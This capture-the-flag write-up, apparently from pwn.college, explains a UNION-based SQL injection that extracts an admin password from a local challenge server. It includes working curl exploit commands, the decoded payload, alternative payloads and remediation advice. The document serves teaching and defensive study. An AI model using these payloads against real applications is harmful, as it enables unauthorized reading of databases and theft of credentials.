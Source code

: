 ```markdown
# SQL Injection Challenge Writeup: UNION-Based Data Extraction

## Challenge Overview
**Category**: Web Security (SQL Injection)  
**Difficulty**: Medium  
**Objective**: Extract the flag stored in the admin's password field using SQL injection.

## Vulnerability Analysis
**Type**: UNION-based SQL Injection  
**Location**: `query` parameter in GET request  
**Root Cause**: 
- Unsanitized user input in SQL query
- Direct string interpolation
- Excessive error/output disclosure

## Successful Exploitation

### Exploit Command
```bash
curl "http://challenge.localhost/?query=%22%20UNION%20SELECT%20password%20FROM%20users%20WHERE%20username=%27admin%27--"
```

### Payload Breakdown (URL-decoded):
```
" UNION SELECT password FROM users WHERE username='admin'--
```

### Explanation:
1. `%22` (`"`): Closes the original string literal
2. `%20UNION%20SELECT`: Appends our data extraction query
3. `password FROM users WHERE username='admin'`: Targets the flag
4. `--`: Comments out the rest of the original query

## Technical Details

### Resulting SQL Query:
```sql
SELECT username FROM users WHERE username LIKE "" 
UNION SELECT password FROM users WHERE username='admin'--"
```

### Why It Worked:
1. The UNION operator combined results from both queries
2. The application displayed all results, including our injected data
3. No filtering or parameterization was present

## Impact Assessment
- Full database read access
- Extraction of sensitive data (flag)
- Potential for further database exploration

## Remediation Recommendations

1. **Use Parameterized Queries**:
```python
db.execute("SELECT username FROM users WHERE username LIKE ?", (query,))
```

2. **Implement Input Validation**:
- Reject queries containing SQL keywords
- Implement allow-list for safe characters

3. **Output Restrictions**:
- Limit displayed columns
- Sanitize output that might contain sensitive data

4. **Database Hardening**:
- Use least privilege principle
- Disable dangerous SQL features

## Lesson Learned
This challenge demonstrates:
1. The danger of string interpolation in SQL queries
2. How UNION injections can bypass output limitations
3. The importance of proper output encoding
4. Why sensitive data shouldn't be stored in retrievable locations

## Full Exploit Command with Flag Extraction
```bash
curl -s "http://challenge.localhost/?query=%22%20UNION%20SELECT%20password%20FROM%20users%20WHERE%20username=%27admin%27--" | grep -o "pwn.college{.*}"
```

## Alternative Payloads
```bash
# Using comment syntax variation
curl "http://challenge.localhost/?query=\" UNION SELECT password FROM users LIMIT 1--"

# Using different quoting style
curl "http://challenge.localhost/?query=' UNION SELECT password FROM users WHERE username='admin'--"
```
